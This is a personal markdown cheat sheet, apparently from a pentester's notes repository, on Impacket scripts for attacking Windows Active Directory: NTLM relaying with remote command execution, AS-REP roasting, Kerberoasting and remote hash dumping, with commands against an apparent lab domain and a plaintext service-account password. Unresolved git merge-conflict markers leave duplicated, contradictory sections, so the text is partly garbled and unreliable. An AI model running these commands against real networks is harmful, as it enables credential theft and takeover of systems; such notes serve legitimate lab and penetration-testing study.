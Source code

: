 
# Python Impacket
Init.

Python [impacket](https://github.com/fortra/impacket/tree/master) is an open-source collection of scripts designed to interact with common [networking](/networking/OSI/network-layer.md) protocols. Many of the scripts can be used in pen-testing, especially against Windows targets.
## Common Scripts:
(I'm keeping a list here for my own use/ reference)
### [`smbrelayx.py`](https://github.com/fortra/impacket/blob/master/examples/smbrelayx.py)
### [`ntlmrelayx.py`](https://github.com/fortra/impacket/blob/master/examples/ntlmrelayx.py)
```bash
ntlmrelayx.py -tf targets.txt -smb2support -c 'whoami'
```
- `tf`: target file
- `-smb2support`: support SMB version 2
- `-c`: command to execute on target system
- `-i`: interactive (will give you a shell)
### [`GetNPUsers.py`](https://github.com/fortra/impacket/blob/master/examples/GetNPUsers.py)
<<<<<<< HEAD
<<<<<<< HEAD:cybersecurity/tools/exploitation/impacket.md
Get's TGTs for users in an [active-directory](../../../hidden/HTB-notes/active-directory.md) environment who have *[kerberos](../../../networking/protocols/kerberos.md) pre-authentication turned off.* This is useful to know because having pre-auth turned off means we can ask for their TGTs without supplying a password. 

Once you have a TGT you can crack it with something like [john](../cracking/john.md).
#### Example
```bash
python3 GetNPUsers.py 
```
### [`GetUserSPNs.py`](https://github.com/fortra/impacket/blob/master/examples/GetUserSPNs.py)
`impacket-GetUserSPNs -usersfile [users.lst](https://users.lst) -dc-ip 10.10.10.175 -request 'EGOTISTICAL-BANK.LOCAL/' -no-pass`
### [`secretdump.py`](https://github.com/fortra/impacket/blob/master/impacket/examples/secretsdump.py)
Will attempt to dump hashes from a remote machine *without executing an agent there.*
=======
=======
>>>>>>> d3d8a3bb6ad799f2200e81ed1a41d783a93034cf
Gets [kerberos](../../../../networking/protocols/kerberos.md) TGTs from users which have the *`UF_DONT_REQUIRE_PREAUTH`* (which means they have pre-authentication turned off). 

From these types of users we can get their *AS_REP* which is *partially encrypted using their password*. 

Once we have the AS-REP, we can give it to [hashcat](../../cracking/tools/hashcat.md) for cracking (and getting the plaintext password).
### [`GetUserSPNs.py`](https://github.com/fortra/impacket/blob/master/examples/GetUserSPNs.py)
```bash
impacket-GetUserSPNs -usersfile users.lst -dc-ip 10.10.10.175 -request 'EGOTISTICAL-BANK.LOCAL/' -no-pass
<<<<<<< HEAD
>>>>>>> d3d8a3bb6ad799f2200e81ed1a41d783a93034cf:cybersecurity/TTPs/exploitation/tools/impacket.md
=======
>>>>>>> d3d8a3bb6ad799f2200e81ed1a41d783a93034cf
```
### [`secretdump.py`](https://github.com/fortra/impacket/blob/master/impacket/examples/secretsdump.py)
```bash
secretsdump.py 'egotistical-bank.local/svc_loanmgr:Moneymakestheworldgoround!@10.10.10.175'
````
<<<<<<< HEAD
<<<<<<< HEAD:cybersecurity/tools/exploitation/impacket.md
- The domain, user, password, and IP should be surrounded in quotes
=======
- The domain, user, password, and IP should be surround in quotesq
>>>>>>> d3d8a3bb6ad799f2200e81ed1a41d783a93034cf:cybersecurity/TTPs/exploitation/tools/impacket.md
=======
- The domain, user, password, and IP should be surround in quotesq
>>>>>>> d3d8a3bb6ad799f2200e81ed1a41d783a93034cf
